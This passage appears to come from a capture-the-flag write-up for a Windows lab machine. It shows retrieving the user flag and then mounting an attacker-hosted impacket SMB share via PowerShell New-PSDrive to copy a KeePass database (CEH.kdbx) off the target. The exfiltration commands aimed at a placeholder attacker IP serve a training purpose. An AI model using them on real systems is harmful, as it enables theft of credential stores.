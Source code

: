 ### user.txt

```bash
PS C:\Users\Administrator\.jenkins> type C:\Users\kohsuke\Desktop\user.txt
<**REDACTED**>
```

---

# Privilege Escalation

In the documents folder of the user `kohsuke`  we can find a KeePass file.

We need to copy the file outside this machine but we have no python to host a quick server.

I will use smb with impacket.

```bash
❯ impacket-smbserver YourStuffIsMine `pwd`                                                
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

And in the machine we do:

```bash
PS C:\Users\kohsuke\Documents> New-PSDrive -Name "GetAllFromMe" -PSProvider "FileSystem" -Root "\\10.10.X.X\YourStuffIsMine"

Name           Used (GB)     Free (GB) Provider      Root                                               CurrentLocation
----           ---------     --------- --------      ----                                               ---------------
GetAllF...                             FileSystem    \\10.10.X.X\YourStuffIsMine                                     

PS C:\Users\kohsuke\Documents> 
```

So we have mounted the filesystem, and we can cd into “GetAllFromMe”.

We try creating a simple file and reading it on our attacker’s machine.

```bash
    Directory: C:\Users\kohsuke\Documents

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        9/18/2017   1:43 PM           2846 CEH.kdbx                                                              

PS C:\Users\kohsuke\Documents> cd GetAllFromMe:

PS GetAllFromMe:\> echo hello > test.txt
PS GetAllFromMe:\> dir

    Directory: \\10.10.X.X\YourStuffIsMine

Mode                LastWriteTime         Length Name                                                                  
```